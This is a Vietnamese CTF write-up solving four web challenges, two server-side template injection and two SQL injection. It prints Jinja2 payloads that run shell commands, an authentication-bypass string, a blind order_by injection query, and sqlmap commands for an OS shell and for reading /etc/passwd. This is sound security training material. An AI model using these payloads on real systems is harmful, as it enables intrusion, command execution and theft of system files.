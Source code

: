 ```yaml
---
title: "Writeup Cyradar CTF TTS/CTV [WEB]"
date: "2025-01-05"
excerpt: "Writeup Cyradar CTF TTS/CTV [WEB]"
featured: "/images/cyradar_logo.svg"
---
```


## Bài 1: SSTI

Khi mở web lên có giao diện như sau:

![image](https://hackmd.io/_uploads/S1FPYZO8Je.png)

=> Khả năng có 1 query string là `name`

Cho `name` có giá trị là `{{7*7}}` để test SSTI

=> Xuất hiện 49 => có khả năng bị SSTI

![image](https://hackmd.io/_uploads/ryg0FWOI1g.png)

Test tiếp `name` = `${{<%[%'"}}%\.` để biết xem phía server đang dùng template engine nào

![image](https://hackmd.io/_uploads/B1i3qW_Ikg.png)

=> Jinja2

Sử dụng payload: 
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls /').read() }}
```

Phát hiện có flag.txt

![image](https://hackmd.io/_uploads/B1iApWdLyg.png)

Đọc flag.txt 
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}
```

![image](https://hackmd.io/_uploads/BJeI0bO8kg.png)

Flag: `Hello CyWeb{w3b_3asy_sst1}!`


## Bài 2: SQL Injection

Bài 2 có giao diện như sau:

![image](https://hackmd.io/_uploads/B1HMyfdU1l.png)

Đọc source code => SQL Injection

Khi thử nhập username là `admin' or 1 = 1 -- thì bị thật`

![image](https://hackmd.io/_uploads/rJuvJzOIJg.png)

Tiếp theo sử dụng tool SQLMap để đẩy nhanh tiến độ dump db

Đầu tiên sử dụng Burp Suite vào url bài web, đăng nhập thử, sau đó lấy request đưa vào file `request.txt`

Sau đó sử dụng SQLMap như sau

![image](https://hackmd.io/_uploads/BkUhJGd8kg.png)

![image](https://hackmd.io/_uploads/H1901G_U1e.png)

Thấy được 3 database sau:

![image](https://hackmd.io/_uploads/HkhkeMOUJg.png)

Thử dump database public (`-dbs`)

![image](https://hackmd.io/_uploads/SyNZxzOLkg.png)

Khi dump table users thì không thấy flag (`-D public -T users --dump`)

![image](https://hackmd.io/_uploads/ryHEgzu81x.png)

Xem lại đề bài có vẻ gợi ý RCE

![image](https://hackmd.io/_uploads/HJNYef_I1e.png)

=> Thêm option `--os-shell` để RCE

![image](https://hackmd.io/_uploads/BJC9gfOUye.png)

Sau đó liệt kê thư mục gốc:

![image](https://hackmd.io/_uploads/rk-nlzdUyl.png)

Đọc file `flag.txt`

![image](https://hackmd.io/_uploads/Byr6lfOLkx.png)

Flag: `CyWeb{ThiS_i5_m3d!um5q1!r(3}`

## Bài 3: SSTI

![image](https://hackmd.io/_uploads/HyF5bfOIJl.png)

Server đang reflect lại địa chỉ IP của client.

Thử thêm `X-Forwarded-For` vào gói tin:

![image](https://hackmd.io/_uploads/Byx-GzOI1x.png)

=> Thử địa chỉ localhost nhưng không thấy gì

Thử `{{7*7}}` ra 49

![image](https://hackmd.io/_uploads/SkwVMzu8ke.png)

Tiếp tục 1 số bước như bài 1 => Jinja2 

Và chèn payload sau: 
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls /').read() }}
```

![image](https://hackmd.io/_uploads/ByNifMu8kg.png)

Đọc flag.txt: 
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}
```

![image](https://hackmd.io/_uploads/S1xpfMOLJx.png)

Flag: `CyWeb{m3d!umsst!}`

## Bài 4: SQL Injection

![image](https://hackmd.io/_uploads/S1j8Xf_8kl.png)

Có vẻ giống bài 2 nhưng lần này với query string `order_by`

Sử dụng sqlmap check 1 số database

![image](https://hackmd.io/_uploads/B1QlVGOUJe.png)

=> xem xét db `chh`

**Note**: 1 cách test bằng cơm nếu không dùng sqlmap: 
```
?order_by=(SELECT (CASE WHEN ((SELECT substring(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)='a') THEN 'price' ELSE (SELECT 7066 UNION SELECT 7211) END))
```

Phát hiện table flag

![image](https://hackmd.io/_uploads/HkiWVM_Lyg.png)

![image](https://hackmd.io/_uploads/ryPMEM_81l.png)

Tuy nhiên thì đây là flag fake
Sau đó có thử option `--os-shell` tuy nhiên gặp lỗi (khả năng không upload được file) => Không thể RCE được
Sau khi tìm hiểu thì có phát hiện ra sqlmap có thể đọc được file với `--file-read`

`sqlmap -r request.txt --file-read=/etc/passwd`

Đầu tiên đọc file `/etc/passwd` xem có flag không

![image](https://hackmd.io/_uploads/rkkZHf_L1x.png)

Em nghĩ lại thì flag các bài trước đều được đặt ở /flag.txt 

![image](https://hackmd.io/_uploads/rJVSHf_L1l.png)
![image](https://hackmd.io/_uploads/r1oHHG_UJg.png)

=> Flag: `CyWeb{w3b_h@rd_sql1_0rderby}`
